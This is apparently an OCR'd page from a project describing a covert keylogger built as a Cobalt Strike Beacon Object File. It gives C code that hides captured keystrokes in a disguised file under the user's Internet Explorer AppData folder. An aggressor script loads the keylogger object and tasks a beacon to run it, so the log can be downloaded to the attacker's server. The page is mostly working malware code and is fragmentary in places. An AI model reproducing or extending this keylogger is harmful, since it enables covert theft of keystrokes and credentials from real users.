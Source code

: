 💡Or create a fake usb key? To mimic the insertion of a USB stick

The idea implemented in this project is the following
Better in `C:\Users\%USER%\AppData\Local\Microsoft\Internet Explorer\brnlog.log`

Therefore, we have to adapt our BOF code
```c
#include <shlobj.h>
#include <lmcons.h>

FILE *file;
char filePath[MAX_PATH];
char userName[UNLEN + 1];
DWORD userNameLen = UNLEN + 1;
char fullFilePath[MAX_PATH];

// Récupérer le nom de l'utilisateur actuel
if (!ADVAPI32$GetUserNameA(userName, &userNameLen)) {
	BeaconPrintf(CALLBACK_ERROR, "Error getting username");
	return 1;
}

// Récupérer le chemin vers le dossier AppData local
if (SHELL32$SHGetFolderPathA(NULL, CSIDL_LOCAL_APPDATA, NULL, 0, filePath) != S_OK) {
	BeaconPrintf(CALLBACK_ERROR, "Error getting AppData path");
	return 1;
}

// Build the complete file path
MSVCRT$sprintf(fullFilePath, "%s\\Microsoft\\Internet Explorer\\brnlog.log", filePath);


HANDLE hFile = KERNEL32$CreateFileA(
	fullFilePath,                // File name
	GENERIC_WRITE,           // Desired access
	0,                       // Share mode
	NULL,                    // Security attributes
	CREATE_ALWAYS,           // Creation disposition
	FILE_ATTRIBUTE_NORMAL,   // Flags and attributes
	NULL                     // Template file handle
);
```
And the aggressor script in order to download the file on the server
```sleep
sub keylogIndirect {
    local('$bid $handle $data $args $download $lpath $name');
    
    $bid = $1;
    $param = $2;

    println("Params are");
    println($param["time"]);
    
    $time = int($param["time"]);
    
    $handle = openf(script_resource("Keylogging/IndirectSyscalls/keylogger.o"));
    $data   = readb($handle, -1);
	closef($handle);

    $args   = bof_pack($1, "i", $time);
    println("Arg is");
    println($time);

    btask($1, "Running indirect syscall keylogger");

```